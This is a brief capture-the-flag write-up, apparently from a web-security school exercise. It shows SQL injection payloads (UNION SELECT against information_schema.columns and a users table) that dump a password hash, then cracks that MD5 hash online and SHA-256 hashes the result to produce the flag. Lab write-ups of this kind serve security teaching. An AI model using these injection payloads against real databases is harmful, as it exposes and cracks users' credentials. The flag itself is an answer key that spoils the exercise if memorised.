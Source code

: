 
5 UNION SELECT table_name, column_name FROM information_schema.columns

Commentaire countersign

ID: 5 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

[md5_decrypt](https://www.md5online.org/md5-decrypt.html) (5ff9d0165b4f92b14994e5c685cdce28) = tolower(FortyTwo) = fortytwo

[Sha256](https://md5decrypt.net/en/Sha256/)(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5